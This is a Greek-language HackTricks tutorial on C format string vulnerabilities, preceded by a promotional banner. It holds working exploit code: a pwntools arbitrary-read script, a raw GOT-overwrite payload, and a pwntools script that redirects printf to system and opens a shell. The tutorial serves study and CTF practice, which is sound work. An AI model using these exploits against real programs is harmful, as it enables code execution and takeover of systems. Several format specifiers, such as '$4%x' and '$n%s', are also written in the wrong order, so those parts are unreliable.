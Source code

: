 # Συμβολοσειρές Μορφοποίησης

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Ερυθρού Συνεργείου AWS του HackTricks)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks**; ή θέλετε να έχετε πρόσβαση στην **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε PDF**; Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε στην** [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο** [**αποθετήριο hacktricks**](https://github.com/carlospolop/hacktricks) **και** [**αποθετήριο hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Βασικές Πληροφορίες

Στη γλώσσα C, η **`printf`** είναι μια συνάρτηση που μπορεί να χρησιμοποιηθεί για να **εκτυπώσει** μια συμβολοσειρά. Η **πρώτη παράμετρος** που αναμένει αυτή η συνάρτηση είναι το **ακατέργαστο κείμενο με τους μορφοποιητές**. Οι **επόμενες παράμετροι** που αναμένονται είναι οι **τιμές** που θα **αντικατασταθούν** στους **μορφοποιητές** από το ακατέργαστο κείμενο.

Η ευπάθεια εμφανίζεται όταν ένα **κείμενο επιτιθέμενου χρησιμοποιείται ως η πρώτη παράμετρος** σε αυτή τη συνάρτηση. Ο επιτιθέμενος θα μπορεί να δημιουργήσει μια **ειδική είσοδο καταχρώμενος** τις **δυνατότητες της συμβολοσειράς μορφοποίησης printf** για να διαβάσει και **εγγράψει οποιαδήποτε δεδομένα σε οποιαδήποτε διεύθυνση (αναγνώσιμη/εγγράψιμη)**. Με αυτόν τον τρόπο μπορεί να **εκτελέσει αυθαίρετο κώδικα**.
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Παραδείγματα:**

* Ευάλωτο παράδειγμα:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Κανονική Χρήση:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Με Λείποντα Ορίσματα:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Πρόσβαση σε Δείκτες**

Η μορφή **`%<n>$x`**, όπου `n` είναι ένας αριθμός, επιτρέπει στο printf να επιλέξει την παράμετρο n (από τη στοίβα). Έτσι, αν θέλετε να διαβάσετε την 4η παράμετρο από τη στοίβα χρησιμοποιώντας το printf, μπορείτε να κάνετε:
```c
printf("%x %x %x %x")
```
και θα διαβάζετε από την πρώτη έως την τέταρτη παράμετρο.

Ή μπορείτε να κάνετε:
```c
printf("$4%x")
```
και διαβάστε απευθείας το τέταρτο.

Σημειώστε ότι ο επιτιθέμενος ελέγχει την παράμετρο `pr`**`intf`, που σημαίνει βασικά ότι** η είσοδός του θα βρίσκεται στη στοίβα όταν καλείται το `printf`, πράγμα που σημαίνει ότι θα μπορούσε να γράψει συγκεκριμένες διευθύνσεις μνήμης στη στοίβα.

{% hint style="danger" %}
Ένας επιτιθέμενος που ελέγχει αυτήν την είσοδο, θα μπορεί να **προσθέσει αυθαίρετη διεύθυνση στη στοίβα και να κάνει το `printf` να τις προσπελάσει**. Στην επόμενη ενότητα θα εξηγηθεί πώς να χρησιμοποιηθεί αυτή η συμπεριφορά.
{% endhint %}

## **Αυθαίρετη Ανάγνωση**

Είναι δυνατό να χρησιμοποιηθεί ο μορφοποιητής **`$n%s`** για να κάνει το **`printf`** να πάρει τη **διεύθυνση** που βρίσκεται στη **θέση n**, ακολουθώντας την και **να την εκτυπώσει σαν να ήταν ένα string** (εκτύπωση μέχρι να βρεθεί το 0x00). Έτσι, αν η βασική διεύθυνση του δυαδικού είναι **`0x8048000`**, και γνωρίζουμε ότι η είσοδος του χρήστη ξεκινά στην 4η θέση στη στοίβα, είναι δυνατό να εκτυπώσουμε την αρχή του δυαδικού με:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Σημειώστε ότι δεν μπορείτε να τοποθετήσετε τη διεύθυνση 0x8048000 στην αρχή της εισόδου επειδή η συμβολοσειρά θα ενωθεί με το 0x00 στο τέλος αυτής της διεύθυνσης.
{% endhint %}

## **Αυθαίρετη Εγγραφή**

Ο μορφοποιητής **`$<num>%n`** **εγγράφει** τον **αριθμό των γραμμένων bytes** στη **διευθυνση που υποδεικνύεται** στην παράμετρο \<num> στο stack. Αν ένας επιτιθέμενος μπορεί να γράψει τόσα χαρακτήρες όσους θέλει με τη χρήση της printf, τότε θα μπορεί να κάνει το **`$<num>%n`** να γράψει έναν αυθαίρετο αριθμό σε μια αυθαίρετη διεύθυνση.

Ευτυχώς, για να γράψετε τον αριθμό 9999, δεν είναι απαραίτητο να προσθέσετε 9999 "A" στην είσοδο, αντί για αυτό μπορείτε να χρησιμοποιήσετε τον μορφοποιητή **`%.<num-write>%<num>$n`** για να γράψετε τον αριθμό **`<num-write>`** στη **διεύθυνση που δείχνει η θέση `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ωστόσο, να σημειωθεί ότι συνήθως για να γράψετε μια διεύθυνση όπως `0x08049724` (που είναι ένα ΤΕΡΑΣΤΙΟ νούμερο για να γραφτεί με μία φορά), **χρησιμοποιείται `$hn`** αντί για `$n`. Αυτό επιτρέπει να **γραφτούν μόνο 2 Bytes**. Συνεπώς, αυτή η λειτουργία εκτελείται δύο φορές, μία για τα υψηλότερα 2B της διεύθυνσης και μια άλλη φορά για τα χαμηλότερα.

Επομένως, αυτή η ευπάθεια επιτρέπει να **γραφτεί οτιδήποτε σε οποιαδήποτε διεύθυνση (αυθαίρετη εγγραφή).**

Σε αυτό το παράδειγμα, ο στόχος είναι να **αντικατασταθεί** η **διεύθυνση** μιας **συνάρτησης** στον **πίνακα GOT** που θα κληθεί αργότερα. Αν και αυτό μπορεί να καταχραστεί άλλες τεχνικές αυθαίρετης εγγραφής για εκτέλεση:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Θα **αντικατασταθεί** μια **συνάρτηση** που **λαμβάνει** τα **ορίσματά της** από τον **χρήστη** και θα την **κατευθύνει** προς τη **συνάρτηση `system`**.\
Όπως αναφέρθηκε, για να γράψετε τη διεύθυνση, συνήθως απαιτούνται 2 βήματα: Πρέπει να **γράψετε πρώτα τα 2Bytes** της διεύθυνσης και στη συνέχεια τα άλλα 2. Για να το κάνετε αυτό χρησιμοποιείται το **`$hn`**.

* Το **HOB** αναφέρεται στα 2 υψηλότερα bytes της διεύθυνσης
* Το **LOB** αναφέρεται στα 2 χαμηλότερα bytes της διεύθυνσης

Στη συνέχεια, λόγω του τρόπου λειτουργίας της συμβολοσειράς μορφοποίησης, πρέπει να **γράψετε πρώτα το μικρότερο** από \[HOB, LOB] και στη συνέχεια το άλλο.

Αν το HOB < LOB\
`[διεύθυνση+2][διεύθυνση]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Αν το HOB > LOB\
`[διεύθυνση+2][διεύθυνση]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Πρότυπο Pwntools

Μπορείτε να βρείτε ένα πρότυπο για την προετοιμασία ενός εκμεταλλεύσιμου κώδικα για αυτού του είδους την ευπάθεια στο:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ή αυτό το βασικό παράδειγμα από [**εδώ**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Άλλα Παραδείγματα & Αναφορές

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, χωρίς relro, χωρίς canary, nx, χωρίς pie, βασική χρήση format strings για διαρροή της σημαίας από το stack (χωρίς την ανάγκη να τροποποιηθεί η ροή εκτέλεσης)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, χωρίς canary, nx, χωρίς pie, format string για να αντικαταστήσει τη διεύθυνση `fflush` με τη λειτουργία win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, χωρίς canary, nx, χωρίς pie, format string για να γράψει μια διεύθυνση μέσα στο main στο `.fini_array` (ώστε η ροή να επαναλαμβάνεται 1 ακόμη φορά) και να γράψει τη διεύθυνση στο `system` στον πίνακα GOT που δείχνει στο `strlen`. Όταν η ροή επιστρέψει στο main, το `strlen` εκτελείται με την είσοδο του χρήστη και δείχνοντας στο `system`, θα εκτελέσει τις εντολές που περνάνε.
